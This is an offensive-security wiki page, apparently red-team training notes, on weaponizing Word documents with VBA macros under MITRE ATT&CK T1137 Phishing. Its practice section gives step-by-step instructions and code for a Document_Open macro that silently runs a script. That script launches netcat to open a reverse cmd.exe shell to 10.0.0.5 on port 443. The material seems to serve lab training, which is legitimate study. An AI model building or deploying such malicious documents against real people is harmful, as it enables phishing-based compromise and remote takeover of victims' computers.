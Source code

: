 ```yaml
---
description: MITRE ATT&CK™ T1137 - Phishing
---
```

# Visual Basic for Application (VBA)

## Theory

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 

{% hint style="error" %}
VBAs/macros by themselves do not inherently bypass any detections.
{% endhint %}

## Practice


{% tabs %}

{% tab title="Basic Usage" %}

1 - Create new word document (CTRL+N)
2 - Hit ALT+F11 to go into Macro editor
3 - Double click into the "This document" and CTRL+C/V the below:

```bash
#Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.  


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1216-signed-script-ce" %}
